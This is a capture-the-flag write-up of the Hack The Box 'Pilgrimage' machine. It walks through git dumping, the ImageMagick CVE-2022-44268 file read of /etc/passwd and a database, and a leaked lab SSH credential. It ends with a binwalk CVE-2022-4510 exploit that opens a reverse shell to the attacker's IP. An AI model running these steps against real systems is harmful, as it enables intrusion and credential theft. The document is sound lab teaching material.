

- This is a Linux System 

## Reconnaissance

### nmap 
```
nmap -sC -sV -oN prilgrimage_light 10.10.11.219
```


### Gobuster 
```
gobuster dir -u http://pilgrimage.htb -w /usr/share/wordlists/dirb/common.txt
```


### Web Service 
- Top Page 

- Try to upload some image

- Access to the temp directory for image

- Try to upload some Non-image file 

- Login

- Register 

- According to the gobuster, it disclose /.git/HEAD
- So let me use some tool to download the whole .git directory 
```
githacker --url http://pilgrimage.htb/.git --output-folder ../.././
```


- Check the git directory 

- Check login source code 

- Check dashboard source code 

- With above 2 PHP file, It's easy to find the sqlite file location 
```
/var/db/pilgrimage
```

- Try to execute magick executable file
```
./magick
./magick --usage
```

- With executing the magick, I can get the information about this executable file's version
```
ImageMagick 7.1.0-49 beta
```


### Research for imagemagick 

```
searchsploit imagemagick
```


- Visit the exploit payload in ExploitDB 

- Following the instruction to visit the github


- With above step, it seems can replicate the exploit.
- But I can't execute 'cargo' in linux system
- So, I found another exploit code in github


## Exploit 

-  Download the github, following the step in description
- Execute the exploit code to generate a PNG file which content the payload to read /etc/passwd
```
python generate.py -f "/etc/passwd" -o exploit.png
```

- The step 2 in github show that I have to convert the PNG file.
- I think it means I need to convert it by ImageMagick.
- So, upload Image with the payload which read /etc/passwd by the function in web --> Success

- Check the image in web service

- Download the exploit PNG file to host
```
wget http://pilgrimage.htb/shrunk/64ca217090747.png
```

- Check the content in PNG file 
```
identify -verbose 64ca217090747.png
```

- Copy the hex value result.

- Using the following command to convert the hex value
```
python -c 'print(bytes.fromhex("<hexvalueInImage>"))'
```
- The /etc/passwd content will show in command result.

- Like above step.
- Execute the exploit code to generate a PNG file which content the payload to read /var/db/Pilgrimage
```
python generate.py -f "/var/db/Pilgrimage" -o exploit.png
```
- Upload Image with the payload which read /var/db/Pilgrimage --> Success

- Check the image in web service
- Download it to host 
```
wget http://pilgrimage.htb/shrunk/64ca244f96925.png
```

- In this time, I tried to use the other converter in github - [CyberChef](https://gchq.github.io/CyberChef/)

- The result shows some DB query scripts

- It also disclose emily's credential 
```
emily / abigchonkyboi123
```

- SSH login with Emily
```
ssh emily@10.10.11.219
```

- Get user flag

- Confirm current user 
```
id 
whoami
```


## Privilege Escalation 

- Check sudo permission
```
sudo -l
```

- Check SUID file 
```
find / -perm -u=s 2>/dev/null
```

- Upload linpeas to victim
- Execute linpeas
```
./linpeas.sh 
```

- Find suspicious file in linpeas - malwarescan.sh 

- The content of malwarescan.sh 
```
#!/bin/bash

blacklist=("Executable script" "Microsoft executable")

/usr/bin/inotifywait -m -e create /var/www/pilgrimage.htb/shrunk/ | while read FILE; do
	filename="/var/www/pilgrimage.htb/shrunk/$(/usr/bin/echo "$FILE" | /usr/bin/tail -n 1 |  /usr/bin/sed -n -e ;s/^.*CREATE //p)"
	binout="$(/usr/local/bin/binwalk -e "$filename")"
	for banned in "${blacklist[@]}"; do
		if [[ "$binout" == *"$banned"* ]]; then
			/usr/bin/rm "$filename"
			break
		fi
	done
done
```

- Execute the pspy64s to monitor the current process
```
./pspy64s
```
- Find malwarescan shell was executed.


- According to the analysis malwarescan shell script
- Here are some suspicious
	1. inotifywait
	2. binwalk
- Execute binwalk, find version 
```
./usr/local/bin/binwalk
```

- After research, it's easy to find binwalk has exist exploit code.
### binwalk - research 
```
searchsploit binwalk
```

- Here are some search from internet 

- GITHUB 


### binwalk - exploit 
- Download the exploit code and following the step 
- Prepare the PNG file 

- Check Usage of exploit code 
- Usage: 
```
python exploit.py <PNG file name> <Listent IP> <Listen Port>
```
- Exploit  
```
python binwalk_exp.py exp.png 10.10.16.107 1336
```

- Check the result PNG which has inject payload into it.

- Upload it to Victim
- And move it to corresponding directory 
- In this challenge, move to 
```
/var/www/pilgrimage.htb/shrunk
```

- Check nc listener 
- It will get reverse shell 

- Check current user 
```
id
```

- Get root flag

## Reference 

### Writeup

- [HTB Pilgrimage - writeup](https://medium.com/@babayaga00897/pilgrimage-htb-writeup-ae8242270434)

### CVE-2022-44268 - ImageMagick 7.1.9-49

- [(EXPLOIT DB)CVE-2022-44268](https://www.exploit-db.com/exploits/51261)
- [(GITHUB)ImageMagick LFI PoC [CVE-2022-44268]](https://github.com/Sybil-Scan/imagemagick-lfi-poc#imagemagick-lfi-poc-cve-2022-44268)
- [(GITHUB)CVE-2022-44268 Arbitrary File Read PoC - PNG generator](https://github.com/voidz0r/CVE-2022-44268)

#### Troubleshooting 
- No Module Name - PIL 
- [Python3 - エラー No module named 'PIL' が発生する](https://www.curict.com/item/51/51a807f.html)


### Git Hack Tool

- [(GITHUB)Git Hack](https://github.com/lijiejie/GitHack)
- [(GITHUB)Git Hacker](https://github.com/WangYihang/GitHacker)
- [Python - GitHacker](https://pypi.org/project/GitHacker/)

### BinWalk - CVE-2022-4510

- [(EXPLOIT DB)Binwalk](https://www.exploit-db.com/exploits/51249)
- [(GITHUB)CVE-2022-4510](https://github.com/adhikara13/CVE-2022-4510-WalkingPath)


### Others 

- [CyberChef](https://gchq.github.io/CyberChef/)
#### Linux command 
- How to install indentity 


###### tags: `HackTheBox`